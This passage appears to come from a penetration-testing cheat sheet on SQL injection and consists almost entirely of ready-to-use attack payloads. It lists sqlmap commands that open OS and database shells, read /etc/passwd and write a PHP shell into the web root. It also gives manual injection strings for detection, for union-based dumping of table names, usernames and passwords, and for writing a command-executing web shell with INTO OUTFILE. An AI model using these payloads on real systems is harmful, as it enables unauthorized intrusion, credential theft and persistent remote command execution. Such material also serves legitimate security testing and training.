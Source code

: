 #### Advanced Options
```bash
# Use a specific technique
sqlmap -u "http://target.com/page.php?id=1" --technique=BEU

# Get OS shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# Get database shell
sqlmap -u "http://target.com/page.php?id=1" --sql-shell

# File read/write
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"
sqlmap -u "http://target.com/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

### Manual SQL Injection

#### Detection
```
# Test for errors
page.php?id=1'
page.php?id=1"
page.php?id=1 AND 1=1
page.php?id=1 AND 1=2

# Boolean-based
page.php?id=1 AND 1=1 -- -
page.php?id=1 AND 1=2 -- -

# Time-based
page.php?id=1 AND SLEEP(5) -- -
page.php?id=1; WAITFOR DELAY '0:0:5' -- -
```

#### Exploitation (MySQL)
```
# Union-based
page.php?id=-1 UNION SELECT 1,2,3 -- -
page.php?id=-1 UNION SELECT 1,database(),3 -- -
page.php?id=-1 UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='database_name' -- -
page.php?id=-1 UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users' -- -
page.php?id=-1 UNION SELECT 1,username,password FROM users -- -

# Reading files
page.php?id=-1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3 -- -

# Writing files
page.php?id=-1 UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php' -- -
```
